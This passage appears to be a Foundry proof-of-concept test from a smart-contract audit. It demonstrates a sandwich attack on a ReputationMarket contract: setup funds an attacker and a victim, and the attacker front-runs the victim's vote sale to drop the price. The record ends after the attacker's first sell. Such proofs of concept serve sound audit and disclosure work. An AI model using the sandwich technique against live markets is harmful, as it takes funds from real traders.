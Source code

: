 ```javascript
        ERC1967Proxy reputationMarketProxy = new ERC1967Proxy(address(reputationMarketLogic), "");
        reputationMarket = ReputationMarket(address(reputationMarketProxy));
        reputationMarket.initialize(
            owner,
            admin,
            expectedSigner,
            signatureVerifier,
            contractAddressManagerAddr
        );
        vm.stopPrank();

        // Condition 1: Market must be created and active
        // (1.1) admin has to allow marketOwner to create market
        vm.prank(admin);
        reputationMarket.setUserAllowedToCreateMarket(marketOwnerProfileId , true);
        // (1.2) marketOwner creates market (Premium tier for demonstration)
        uint256 initialLiquidity = 1 ether; // 100*DEFAULT_PRICE for marketConfigs(2) Premium tier;
        vm.deal(marketOwner, initialLiquidity);
        vm.prank(marketOwner);
        reputationMarket.createMarketWithConfig{value: initialLiquidity}(2);

        // Condition 2 : Attacker needs to have votes in market
        vm.deal(attacker, ATTACKER_INITIAL_BALANCE);
        vm.startPrank(attacker);
        uint256 expectedVotesAttacker = 2000; // 11 ETH = 2097 votes
        uint256 slippageBasisPointsAttacker = 10_000;
        reputationMarket.buyVotes{value: attacker.balance}(marketOwnerProfileId, TRUST, expectedVotesAttacker, slippageBasisPointsAttacker);
        vm.stopPrank();
        
        // Condition 3: Victim needs to have votes in market
        vm.deal(victim, VICTIM_INITIAL_BALANCE);
        vm.startPrank(victim);
        uint256 expectedVotesVictim = 0; // 1 ETH = 182 votes
        uint256 slippageBasisPointsVictim = 10_000;
        reputationMarket.buyVotes{value: victim.balance}(marketOwnerProfileId, TRUST, expectedVotesVictim, slippageBasisPointsVictim);
        vm.stopPrank();
    }

    function testSandwichAttack() public {
        // using TRUST votes to demonstrate attack
        // DISTRUST votes will work the same
        
        // Simulate the vote selling if no sandwich attack
        uint256 victimVotes = reputationMarket.getUserVotes(victim, marketOwnerProfileId).trustVotes;
        vm.prank(victim);
        (, uint256 fundsReceivedNoSandwich,,,uint256 minPriceNoSandwich, uint256 maxPriceNoSandwich) = reputationMarket.simulateSell(marketOwnerProfileId, TRUST, victimVotes);
        uint256 avgVotePriceNoSandwich = (minPriceNoSandwich + maxPriceNoSandwich) / 2;
        // avgVotePriceNoSandwich: 0.005492983499747185 ETH/trustVote
        // fundsReceivedNoSandwich: 0.999713710481421484 ETH

        // Step 1: Attacker frontrun victim's sellVotes with attacker's own sellVotes to drop the price
        uint256 attackerBalanceBeforeSandwich = attacker.balance;
        uint256 attackerVotes = reputationMarket.getUserVotes(attacker, marketOwnerProfileId).trustVotes;
        uint256 attackerVotesBeforeSandwich = attackerVotes;
        vm.prank(attacker);
        reputationMarket.sellVotes(marketOwnerProfileId, TRUST, attackerVotes);

```